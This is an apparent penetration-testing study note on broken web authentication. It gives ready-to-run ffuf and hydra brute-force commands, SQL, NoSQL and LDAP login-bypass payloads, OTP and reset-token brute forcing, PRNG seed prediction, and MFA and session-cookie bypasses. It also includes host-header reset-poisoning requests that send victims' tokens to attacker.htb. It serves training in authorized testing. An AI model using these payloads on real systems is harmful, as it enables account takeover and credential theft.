

# Broken Authentication

#BrokenAuthentication #Authentication #UserEnumeration #BruteForce #PasswordReset #SessionFixation #MFABypass #2FA #ffuf #Hydra #BurpSuite #WebAppAttacks #Auth

## What is this?

Broken authentication is any flaw in how a web app verifies identity — letting an attacker enumerate valid users, guess or brute-force credentials, hijack the password-reset flow, defeat MFA, or steal/fixate a session. It's OWASP's perennial top-tier risk (**A07:2021 — Identification and Authentication Failures**) and the first line of defense on almost every target, so login / registration / password-reset / 2FA endpoints are always worth a hard look. This note is the login-form-and-session view; reach for the deeper tool/technique notes for the parts that have grown into their own topics. Pairs with [[Login Brute Forcing]], [[Password Attacks]], [[JWT Attacks]], [[OAuth-OIDC-SAML]].

---

## Tools

| Tool | Use |
|---|---|
| [[Tools/Scanning/ffuf\|ffuf]] | Fuzz usernames, passwords, reset tokens, and OTP codes against an endpoint |
| [[Tools/Web/Burpsuite\|Burp Suite]] | Intercept login / reset / 2FA requests; Intruder for OTP & token brute force; Repeater for response manipulation |
| [[Tools/Auth/Hydra\|hydra]] | Network login brute-forcer / password spraying — HTTP forms plus SSH, FTP, RDP, SMB, mail, DB |
| `seq` | Generate numeric token / OTP wordlists (`seq -w 0 9999`) |
| `grep` / `awk` | Filter a leaked-password wordlist down to the target's password policy |
| [SecLists](https://github.com/danielmiessler/SecLists) | Username & password wordlists (`xato-net-10-million-usernames.txt`, `rockyou.txt`) |
| `curl` | Quick manual probing and scripted requests |

---

## Authentication Model (primer)

| Factor | "Something you…" | Examples |
|---|---|---|
| Knowledge | know | Password, PIN, security-question answer |
| Ownership | have | ID card, hardware token, authenticator app (TOTP) |
| Inherence | are | Fingerprint, facial pattern, voice |

- **SFA** (single-factor) relies on one factor — usually just a password.
- **MFA** requires two or more *different* factors (password + TOTP = knowledge + ownership). Two factors specifically = **2FA**.
- Knowledge-based auth is the most common and the easiest to attack (guessable, brute-forceable, phishable) — the focus of most of this note. Inherence-based auth is *irreversibly* compromised in a breach (you can't rotate a fingerprint).

---

## User Enumeration

A web app is enumerable when it responds **differently** to a valid vs. invalid identifier. Common leak points: **login, registration, and password-reset** forms. Usernames are often simple (no special chars), so a confirmed username narrows a brute force or feeds a targeted spray.

### Differing error messages

```bash
# Invalid user → "Unknown user."   Valid user → "Invalid credentials."
# Fuzz the username, filter out the invalid-user response with -fr
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ \
  -u http://<TARGET_IP>:<PORT>/index.php -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=FUZZ&password=invalid" \
  -fr "Unknown user"
```

| Flag | Description |
|---|---|
| `-w <list>:FUZZ` | Wordlist bound to the `FUZZ` keyword |
| `-X POST` / `-d` | Method and POST body |
| `-fr "<regex>"` | **Filter** responses matching this regex (the invalid-user message) |
| `-mr "<regex>"` | Inverse — **match** only responses containing a string |
| `-fc` / `-fs` / `-fw` | Filter by status code / size / word count when the message is identical |

> [!tip]
> If the error text is identical, diff on something else: response **size** (`-fs`), **word count** (`-fw`), **status code** (`-fc`), or a redirect. A registration form that says "username already taken" is often a cleaner oracle than the login form.

### Side-channel enumeration

When the response body *and* size match, the app can still leak through a side channel:

| Side channel | Why it differs |
|---|---|
| **Response timing** | App only does a DB lookup / password-hash comparison for *valid* users — valid usernames come back slower. Measure with `ffuf`'s duration column or `curl -w "%{time_total}"`. |
| **Password-reset endpoint** | "If that email exists we sent a link" vs. an immediate error reveals valid accounts. |
| **Registration** | "Email already registered" confirms existing accounts. |
| **Lockout behavior** | Only real accounts lock out after N failures → a lockout message confirms the user exists. |

> [!note]
> Timing-based enumeration is noisy and needs many samples to beat jitter — see the Whitebox-attacks angle in [[Password Attacks]]. Treat it as a fallback when response/size/status are all identical.

---

## Default & Weak Credentials

Before enumerating or brute-forcing, try what's free: **default and reused credentials**. Unchanged vendor/installer defaults are one of the most common real-world broken-auth findings, and breach-sourced `user:pass` pairs (credential stuffing) beat any wordlist because they're *real* passwords for *real* accounts.

| Source | Where to look |
|---|---|
| Product / vendor defaults | `admin:admin`, `root:root`, `tomcat:tomcat`; printer/router/appliance manuals, install docs |
| SecLists default-creds | `/usr/share/seclists/Passwords/Default-Credentials/*` (`default-passwords.csv`, product-specific lists) |
| Framework / app defaults | Jenkins, Tomcat Manager, Grafana (`admin:admin`), phpMyAdmin, WebLogic, F5, etc. |
| Credential stuffing | Breach `user:pass` combos replayed against the target |

```bash
# Try a curated default-cred combo list (user:pass per line) with hydra
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt \
  ftp://<TARGET_IP>

# Credential stuffing a web login with a breach combo file (-C = colon-separated combos)
hydra -C combos.txt <TARGET_IP> http-post-form \
  "/login:username=^USER^&password=^PASS^:F=Invalid"
```

> [!tip]
> Identify the product/version first (favicon hash, login-page branding, server headers) so you can pull that product's *specific* default creds instead of a generic list. A single correct default beats an hour of brute force.

> [!warning]
> Credential stuffing reuses real people's leaked passwords — only against accounts/scope you're explicitly authorized to test, and expect it to trip breach-detection / impossible-travel alerts.

---

## Password Brute-Forcing

Once you have a valid user, a password-only login rests entirely on password strength. Tailor the wordlist to the app's **password policy** first — every candidate that can't satisfy the policy is a wasted request.

### Tailor the wordlist to the policy

```bash
# Policy: ≥1 upper, ≥1 lower, ≥1 digit, ≥10 chars.
# rockyou is ~14.3M lines; filtering drops it ~99% to ~150k.
grep '[[:upper:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt \
  | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

# Same thing in one awk pass
awk 'length($0) >= 10 && /[a-z]/ && /[A-Z]/ && /[0-9]/' \
  /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt > custom_wordlist.txt

wc -l custom_wordlist.txt   # sanity-check the reduction
```

### Brute force with ffuf

```bash
# Intercept the login first (Burp) to learn the param names and failure string,
# then fuzz the password for a known user, filtering the failure message.
ffuf -w ./custom_wordlist.txt:FUZZ \
  -u http://<TARGET_IP>:<PORT>/index.php -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin&password=FUZZ" \
  -fr "Invalid username"
# Success often shows as a 302 redirect / size change → e.g. FUZZ: Buttercup1
```

### The same login form with hydra

```bash
# F= = failure string; ^USER^/^PASS^ are the injection points
hydra -l admin -P ./custom_wordlist.txt <TARGET_IP> http-post-form \
  "/index.php:username=^USER^&password=^PASS^:F=Invalid username"
```

> [!warning]
> Per-account brute force **trips lockouts and generates noise/alerts**. On anything production-like, prefer **password spraying** (one likely password across many users) — full technique set in [[Login Brute Forcing]] and [[Password Attacks]]. Credential stuffing (breach `user:pass` pairs replayed) is the other high-yield, low-lockout path.

---

## Rate-Limiting & Lockout Bypass

Brute force / OTP attacks assume you can send many attempts. When the app rate-limits or locks out, these are the classic bypasses to test — most also apply directly to the [OTP brute force](#Bypassing%20MFA%20/%202FA) below:

| Technique | How |
|---|---|
| **Resend resets the counter** | Requesting a fresh OTP/token often zeroes the attempt counter — loop *request-code → try-a-batch* to brute force indefinitely. |
| **IP-based limit via header spoofing** | Rotate `X-Forwarded-For:`, `X-Real-IP:`, `X-Client-IP:`, `X-Forwarded-Host:` per request (Burp Intruder / Match-and-Replace) to look like new clients. |
| **Limit ≠ validation** | Even when limited, a *valid* code may still short-circuit to a different response (e.g. limited attempts return `401`, but the correct OTP returns `200`). Watch the response, not just the status. |
| **Per-account vs. global** | A per-account lockout doesn't stop **spraying** one password across many accounts. |
| **Parallelism / race** | Fire attempts concurrently (Burp Turbo Intruder, HTTP/2 single-packet) so many land before the counter updates. |
| **Value tricks** | Leading zeros, `+`/whitespace, integer vs. string, array/JSON type juggling on the code field can dodge naive counters. |

---

## Authentication Bypass — Injection & Logic

Sometimes you don't need valid credentials at all — you make the auth *check* return true. Test these on every login **before** committing to brute force; they're instant wins when they land. Full methodology for each injection class lives in its own note.

### SQL injection login bypass

If the login query is built by string concatenation, comment out the password check or force an always-true condition.

| Payload (username field) | Effect |
|---|---|
| `admin'-- -` | Log in as `admin`, comment out the rest of the query (the password check) |
| `admin'#` | Same, MySQL `#` comment |
| `' OR 1=1-- -` | First user in the table (often admin) |
| `' OR '1'='1` | Always-true, no comment needed |
| `') OR ('1'='1'-- -` | When the value is wrapped in parentheses |

Full auth-bypass, UNION, and blind methodology in [[SQL Injection]].

### NoSQL injection login bypass

MongoDB-style backends trust operator objects placed in the credential fields.

```bash
# JSON body — $ne makes the password match anything
curl -s http://<TARGET_IP>/login -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$ne":null}}'

# URL-encoded form — operator injection via bracket notation
curl -s http://<TARGET_IP>/login -d 'username[$ne]=x&password[$ne]=x'
# $regex / $gt variants: username=admin&password[$regex]=.*
```

Operator reference and data extraction in [[NoSQL Injection]].

### LDAP injection login bypass

Directory-backed logins — filter `(&(uid=<user>)(userPassword=<pass>))` — break on filter metacharacters.

| Payload | Effect |
|---|---|
| `*` in user **and** pass | Wildcard-match the first directory entry |
| `admin)(&))` / `admin))%00` | Truncate / short-circuit the filter |
| `*)(uid=*))(\|(uid=*` | Inject an always-true filter |

Details in [[LDAP Injection]].

### Logic & type-juggling bypass

- **PHP loose comparison (`==`)** — "magic hash" strings that hash to `0e[0-9]+` are read as `0 == 0` → true. If the app does `md5($input) == $stored` loosely, a magic-hash password can match. Strict `===` defeats it.
- **Array injection** — sending `password[]=x` (array where a string is expected) can make `strcmp()`/hashing return `null`/`false`, which a sloppy check treats as a pass.
- **Missing negative branch** — the app returns a session cookie / redirect even on failure; drop the failure response in Repeater and replay the success path.

---

## Attacking Password Reset

Reset flows are multi-step and security-critical: a broken one is full account takeover **without** the password. Register an account, trigger a reset, and study exactly what the app generates and trusts.

### Weak / predictable reset tokens

If the token is short or sequential (a 4-digit code = only 10,000 values), brute-force it:

```bash
# Build every 4-digit token, zero-padded
seq -w 0 9999 > tokens.txt

# Brute force active reset tokens (trigger a reset for the target first)
ffuf -w ./tokens.txt:FUZZ \
  -u "http://<TARGET_IP>/reset_password.php?token=FUZZ" \
  -fr "The provided token is invalid"
# Hit → visit /reset_password.php?token=<FUND> to set a new password → takeover
```

> [!tip]
> Before brute forcing, **analyze** a token you legitimately received: is it sequential, a timestamp, a short hash, base64 of the email/user-id? Predictable tokens are forged, not brute-forced. Also test token **reuse** (still valid after use?), **no expiry**, and whether *another* user's token is accepted (missing user↔token binding).

### Seeded-PRNG tokens — long, random-looking, and still forgeable

A token's strength is the entropy of its **seed**, not its length. A 32-character token from a 62-character alphabet is `62^32` ≈ 2.3e57 by brute force — but if it came from a PRNG seeded with something guessable, the real search space is the seed's range.

```php
// The classic: looks unbreakable, isn't
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());                       // <-- 1 second of entropy
    $code = "";
    for ($i = 0; $i < 32; $i++)
        $code .= $chars[rand(0, strlen($chars) - 1)];
    return $code;
}
```

`srand(time())` means the entire 32-character output is determined by a **Unix timestamp in seconds** — which the server publishes in the `Date:` header of the very response confirming your action.

| Uncertainty window | Candidates to try |
|---|---|
| ±5 seconds | 11 |
| 1 hour | 3,600 |
| 1 day | 86,400 |

**Procedure:**

```bash
# 1. Trigger the token (register / request reset) and capture the Date header
curl -skD- -X POST "https://<TARGET>/register.php" -d '<params>' | grep -i '^date:'

# 2. Convert to epoch — this is your seed candidate
date -u -d 'Wed, 18 Aug 2026 14:03:11 GMT' +%s

# 3. Generate candidates by running the TARGET'S OWN function with each seed
php -r '
$chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
for($s=$argv[1]-5; $s<=$argv[1]; $s++){          // window only needs to go BACKWARD
  srand($s); $c="";
  for($i=0;$i<32;$i++) $c.=$chars[rand(0,strlen($chars)-1)];
  echo $c,"\n";
}' <epoch> > codes.txt

# 4. Fuzz — match the SEMANTIC success string, never a byte count
ffuf -w codes.txt -u 'https://<TARGET>/activate.php?code=FUZZ' -k -mr 'Account activated'
```

> [!warning]
> **Don't reimplement the generator.** On PHP 7.1+ `rand()` is an alias of `mt_rand()` and `srand()` of `mt_srand()` — Mersenne Twister, not the old libc LCG. Copy the target's function verbatim into a local `php -r` and vary only the seed. Same code, same output; a hand-rolled PRNG will not match.

> [!tip]
> The window only needs to extend **backwards** from the `Date:` header — `time()` is called during request processing, before the response is stamped, so the true seed is always ≤ the header epoch.

**Other guessable seeds and sources worth testing:** `uniqid()` (microtime-based — add microsecond brute force), `mt_rand()` without any `srand` (state recoverable from ~624 consecutive outputs), incrementing IDs, `md5(email)`, `md5(username . date)`, and anything base64 that decodes to something structured.

**Correct construction, for the report:** `random_bytes()` / `bin2hex(random_bytes(16))` in PHP, `secrets` in Python, `crypto.randomBytes` in Node — a CSPRNG, never `rand`/`mt_rand`/`uniqid`.

> [!note]
> A predictable token is often the **gate** in front of a bigger bug rather than the finding itself. On HTB BroScience the activation-code prediction exists only to obtain a session, because the real vulnerability — a PHP object-injection sink — is behind `isset($_SESSION['id'])`. See [[Class notes/HTB Academy/CPTS v2 (claude)/Deserialization|Deserialization]].

### Host-header reset poisoning

Many apps build the reset link from the incoming `Host` (or `X-Forwarded-Host`) header. Poison it so the victim's emailed link points at *your* server — when they click, the secret token lands in your logs.

```bash
# Request a reset for the victim while overriding the host the link is built from
curl -s -X POST http://<TARGET_IP>/forgot_password.php \
  -H "Host: attacker.htb" \
  -d "email=victim@target.htb"

# Some apps trust X-Forwarded-Host over Host instead
curl -s -X POST http://<TARGET_IP>/forgot_password.php \
  -H "Host: target.htb" \
  -H "X-Forwarded-Host: attacker.htb" \
  -d "email=victim@target.htb"
# → email link becomes http://attacker.htb/reset?token=<secret>; catch it on your listener
```

> [!warning]
> Reset poisoning needs the victim to click, but leaks the **real** token for their account — it beats brute force when tokens are strong. Also check `X-Forwarded-For`, dangling-markup, and the `Referer` header as alternate injection points for the link host.

### Other reset-flow abuses

| Vector | Test |
|---|---|
| **Token leak via `Referer`** | If the reset page loads any third-party resource (analytics, CDN, fonts) while the token is still in the URL, the full link — token included — leaks in the outbound `Referer` header. Watch the reset page's outbound requests. |
| **Email parameter pollution** | Send two email params — `email=victim@t.htb&email=attacker@t.htb` (or a JSON array). Backends that *validate* the first but *send to* the second (or CC both) deliver the victim's token to you. |
| **Reset an arbitrary account** | If the reset-confirm request carries a `user`/`id`/`email` alongside the token, swap it — weak token↔account binding lets one valid token reset a *different* account. |
| **Token in API response** | The "send reset" JSON response sometimes returns the token/link itself — read the response body, skip the email entirely. |
| **Change-password w/o current password** | If `/change-password` doesn't require the current one and isn't CSRF-protected, it's [[CSRF Attacks]] account takeover — not a reset bug at all. |
| **Token reuse / no expiry** | Use a token, then reuse it; wait past the stated TTL and retry. Tokens must be single-use and short-lived. |

---

## Bypassing MFA / 2FA

MFA is only as strong as its weakest step. A password-form module's job is to attack the *implementation*, not the phishing side. Test these in order — the cheap ones first:

### OTP brute force

The single most common flaw: a short numeric OTP + **no rate limiting** + generous expiry = ~1-in-10,000 per try, trivial with Intruder/ffuf.

```bash
# 6-digit OTP, all codes; carry the session cookie from the password step
seq -w 0 999999 > otps.txt
ffuf -w ./otps.txt:FUZZ \
  -u http://<TARGET_IP>/2fa/verify -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -b "session=<POST_PASSWORD_SESSION>" \
  -d "otp=FUZZ" \
  -fr "Invalid code"
```

Combine with the [rate-limit bypasses](#Rate-Limiting%20&%20Lockout%20Bypass) above if a limiter is present (resend-resets-counter is the usual win).

### Flow bypass (skip the 2FA step)

After the password step, try to reach a **post-authentication** page directly — many apps set the session as fully-authenticated before the OTP is verified.

- Force-browse straight to `/dashboard`, `/account`, an authenticated API route.
- Complete password → intercept the "go to 2FA" response → change the redirect / drop the 2FA request and replay a known good post-login request.
- Register/enable-2FA endpoints sometimes issue a full session before the code is confirmed.

### Response manipulation

The client is often trusted to enforce the result. Intercept the verify **response** in Burp and flip it:

- `{"success":false}` → `{"success":true}`, `"2fa":"required"` → `"passed"`.
- HTTP `4xx`/`401` → `200`.
- Submit an **empty / null / `000000`** code — some backends treat "no comparison" as success.

### Backup / recovery codes

Recovery codes are often shorter, non-expiring, and **not** rate-limited like the live OTP — brute-force those instead of the TOTP.

### "Remember this device" cookie

A weak/guessable trusted-device cookie (predictable value, no binding to user/device) lets you skip 2FA entirely. Capture it, analyze its structure, forge it.

### Disable/downgrade 2FA

- Is the **disable-2FA** action protected by re-auth and CSRF? If not, [[CSRF Attacks]] can turn it off for the victim.
- Can you switch the delivery method to a weaker one (authenticator → SMS), or unbind 2FA via a password-reset that resets MFA too?

### Leaked code

Check the verify **response body and JS** — some apps return the OTP (or a comparison value) client-side for "convenience."

> [!note]
> Out of scope for login-form testing but worth flagging in a report as the real-world MFA threat: **AiTM phishing proxies** (Evilginx-style reverse proxies that relay the OTP and steal the *session token*), **MFA-fatigue / push-bombing**, **SIM-swap** against SMS OTP, and **help-desk social engineering** to reset MFA. Token theft + replay bypasses MFA entirely because it rides an already-authenticated session — see [[JWT Attacks]] and [[OAuth-OIDC-SAML]] for the token side. The phishing-resistant countermeasure is [[Standards & Protocols/WebAuthn-FIDO2|WebAuthn/FIDO2]] (passkeys) — which is exactly why AiTM shifts to forcing a **downgrade** to a weaker factor instead of relaying it.

---

## Session Attacks

Once authenticated, the session token *is* the identity. Two flaws in how tokens are issued/expired lead straight to hijack.

### Session Fixation

The app **reuses the same session token before and after login** instead of issuing a fresh one. If you can force a victim onto a token you already know, you inherit their authenticated session.



> [!note]
> **Fix / test:** a secure app issues a brand-new random session token *on* successful authentication (and on privilege change). If the pre-login cookie survives login unchanged, it's vulnerable. Look for any param/header that lets you *set* the session value (`?sid=`, `Set-Cookie` reflection).

### Improper Session Timeout

No timeout = a token valid forever, so a single hijacked/leaked cookie works indefinitely. There's no universal value — health/banking = minutes; social = hours. Test by idling and replaying an old cookie, and confirm **logout server-side invalidates** the token (not just clears the client cookie).

### Weak / predictable session tokens

Short, sequential, or unsigned tokens can be predicted or forged. For **JWT-based** sessions (`alg:none`, weak HMAC secret, `kid` injection, key confusion), see [[JWT Attacks]]. Session Puzzling and other misconfig-driven session bugs live in the HTTP-misconfiguration material.

### Weak "remember me" / persistent-auth cookies

A "keep me logged in" feature sets a long-lived cookie — a second, often weaker credential. If its value is a predictable or reversible encoding of the identity rather than a random server-side token, it can be forged or replayed long after the session expires.

| Anti-pattern | Attack |
|---|---|
| `remember=base64(user:md5(pass))` | Decode → forge for any user, or crack the hash offline |
| `remember=base64(username)` / sequential id | Swap to another user's identifier |
| Cookie unchanged across logins / no expiry | Replay indefinitely — survives password change |
| Not bound to device or IP | Steal once, use anywhere |

```bash
# Inspect a remember-me cookie's structure
echo 'YWRtaW46MjFiNzJjMGI3YWRjNTBjZmQ0N2E=' | base64 -d
# admin:<hash> → crack the hash (hashcat) or just re-encode as another user
```

> [!note]
> Treat every persistent cookie as an auth token: **random**, server-side-validated, single-device, and revoked on logout / password change. Base64 is encoding, not protection.

---

## Quick Reference

| Goal | Command / action |
|---|---|
| Enumerate users (diff error) | `ffuf -w users.txt:FUZZ -u .../login -X POST -d "username=FUZZ&password=x" -fr "Unknown user"` |
| Enumerate via timing | `curl -o /dev/null -s -w "%{time_total}\n" ...` per candidate; slower = valid |
| Filter wordlist to policy | `awk 'length($0)>=10 && /[a-z]/ && /[A-Z]/ && /[0-9]/' rockyou.txt > wl.txt` |
| Brute-force password (ffuf) | `ffuf -w wl.txt:FUZZ -u .../login -X POST -d "username=admin&password=FUZZ" -fr "Invalid"` |
| Brute-force password (hydra) | `hydra -l admin -P wl.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"` |
| Default / stuffing creds | `hydra -C combos.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"` |
| SQLi login bypass | username = `admin'-- -` or `' OR 1=1-- -` |
| NoSQL login bypass | `username[$ne]=x&password[$ne]=x` or `{"password":{"$ne":null}}` |
| Forge remember-me cookie | `base64 -d` the cookie → swap user / crack hash → re-encode |
| Brute-force 4-digit token | `seq -w 0 9999 > t.txt; ffuf -w t.txt:FUZZ -u ".../reset?token=FUZZ" -fr "invalid"` |
| Brute-force 6-digit OTP | `seq -w 0 999999 > o.txt; ffuf -w o.txt:FUZZ -u .../2fa -X POST -b "session=..." -d "otp=FUZZ" -fr "Invalid"` |
| Reset poisoning | `curl -X POST .../forgot -H "Host: attacker.htb" -d "email=victim@t.htb"` |
| Rate-limit bypass | Rotate `X-Forwarded-For`, or resend code to reset the counter, or race with Turbo Intruder |
| 2FA flow bypass | Force-browse to `/dashboard` after the password step; flip `success:false`→`true` in the response |
| Test session fixation | Set a known cookie, log in, check if the token rotates |

---

*Created: 2026-07-31*
*Updated: 2026-08-18*
*Model: claude-opus-5*
